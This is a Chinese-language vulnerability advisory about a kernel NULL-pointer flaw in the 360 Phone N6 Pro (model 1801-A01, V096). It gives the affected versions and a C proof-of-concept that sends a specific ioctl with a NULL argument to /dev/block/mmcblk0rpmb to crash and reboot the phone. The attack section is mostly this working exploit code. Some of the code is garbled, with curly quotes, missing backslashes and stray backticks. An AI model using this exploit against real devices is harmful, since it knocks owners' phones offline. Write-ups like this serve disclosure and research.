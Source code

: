 ```yaml
---
title: "360 Phone N6 Pro内核漏洞"
id: zhfly3404
---
```


# 360 Phone N6 Pro内核漏洞

## 一、漏洞简介

360 Phone N6 Pro V096内核组件中的内核模块允许攻击者使用命令**3235427072**在设备/ dev / block / mmcblk0rpmb上通过ioctl的自变量注入精心设计的自变量，并导致内核崩溃。

## 二、漏洞影响

*   名称：360 Phone N6 Pro
*   型号：1801-A01
*   安卓版本：7.1.1
*   版本号：V096
*   内核版本：Linux localhost 4.4.21-perf＃1 SMP PREEMPT Wed Mar 28 28 15:24:20 UTC 2018 aarch64

## 三、复现过程

### poc

```
/*
* This is poc of 360 N6 Pro, 1801-A01
* Android Version: 7.1.1
* Version Number: V096
* Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
* A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
* This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
*/
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = “/dev/block/mmcblk0rpmb”;

static command = 3235427072; // 0xc0d8b300

int main(int argc, char **argv, char **env) {

int fd = 0;

fd = open(driver, O_RDWR);

if (fd < 0) {

printf(“Failed to open %s, with errno %dn”, driver, errno);

system(“echo 1 > /data/local/tmp/log”);

return -1;

} `printf(“Try ioctl device file ‘%s’, with command 0x%x and payload NULLn”, driver, command);

printf(“System will crash and reboot.n”);

if(ioctl(fd, command, NULL) < 0) {

printf(“Allocation of structs failed, %dn”, errno);

system(“echo 2 > /data/local/tmp/log”);

return -1;

}

close(fd);

return 0;

}` 
```